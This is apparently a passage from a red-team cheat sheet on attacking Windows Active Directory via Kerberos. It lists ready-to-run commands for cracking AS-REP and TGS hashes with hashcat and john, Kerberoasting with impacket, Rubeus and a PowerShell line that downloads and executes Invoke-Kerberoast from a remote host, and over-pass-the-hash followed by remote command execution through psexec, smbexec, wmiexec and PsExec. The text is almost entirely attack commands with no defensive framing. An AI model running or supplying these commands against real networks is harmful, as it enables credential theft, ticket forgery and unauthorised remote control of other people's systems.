 #### hash cracking
```
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>
hashcat -m 13100 -a 0 hash.krb wordlists/rockyou2021.txt --force --potfile-disable
hashcat -m 7500 hash.txt -D 2 -o result_hash.txt -O -w 3 -a 3 wordlists/rockyou2021.txt
john --wordlist=<passwords_file> <AS_REP_responses_file>
john --format:krb5tgs hash.krb --wordlist=/usr/share/wordlists/rockyou.txt

```

#### Kerberoast
```
# impacket
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>
sudo python3 GetUserSPNs.py box.local/owned_user -dc-ip $IP -request

# powershell
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>

# Rubeus

.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>

```

#### [Over pass the hash](https://www.hackingarticles.in/lateral-movement-over-pass-the-hash/)
```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>

# Request the TGT with aesKey (more secure encryption & stealth)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>

# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]


# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# OR with Rubeus and PSExec

# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd

```
